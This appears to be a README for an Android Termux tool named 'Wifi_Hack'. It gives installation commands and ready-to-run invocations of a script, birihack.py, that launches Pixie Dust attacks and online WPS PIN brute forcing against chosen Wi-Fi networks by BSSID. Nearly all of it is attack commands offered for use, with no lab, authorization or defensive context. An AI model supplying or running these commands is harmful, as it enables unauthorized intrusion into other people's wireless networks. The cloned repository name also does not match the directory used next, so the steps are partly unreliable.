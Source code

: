 ## Wifi_Hack
## Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

## Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/abukayuum/wifi
$ cd Wifi_Hack
$ chmod +x birihack.py
$ sudo python birihack.py --help
```

## Help : python3 birihack.py --help
## Example : `sudo python birihack.py -i wlan0 -K`

## Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
